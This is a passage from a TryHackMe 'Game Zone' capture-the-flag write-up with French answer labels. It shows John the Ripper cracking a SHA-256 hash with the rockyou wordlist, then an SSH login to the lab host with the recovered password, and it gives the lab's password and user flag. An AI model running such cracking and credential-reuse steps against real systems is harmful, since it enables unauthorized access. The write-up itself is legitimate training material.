 > Réponse: **post**

## [Task 4] Cracking a password with JohnTheRipper

```
root@kali:/home/kali/thm/gamezone# echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" > agent47.hash
root@kali:/home/kali/thm/gamezone# john --wordlist=/opt/rockyou.txt  --format=Raw-SHA256 agent47.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2020-06-21 15:37) 5.263g/s 15349Kp/s 15349Kc/s 15349KC/s vimivera..veluasan
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```


### #2 What is the de-hashed password?

> Réponse : **videogamer124**

### #3 What is the user flag?

```
kali@kali:~/thm/gamezone$ ssh agent47@10.10.74.121
The authenticity of host '10.10.74.121 (10.10.74.121)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.74.121' (ECDSA) to the list of known hosts.
agent47@10.10.74.121's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.

Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147

agent47@gamezone:~$ id
uid=1000(agent47) gid=1000(agent47) groups=1000(agent47),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

agent47@gamezone:~$ cat user.txt 
649ac17b1480ac13ef1e4fa579dac95c
```

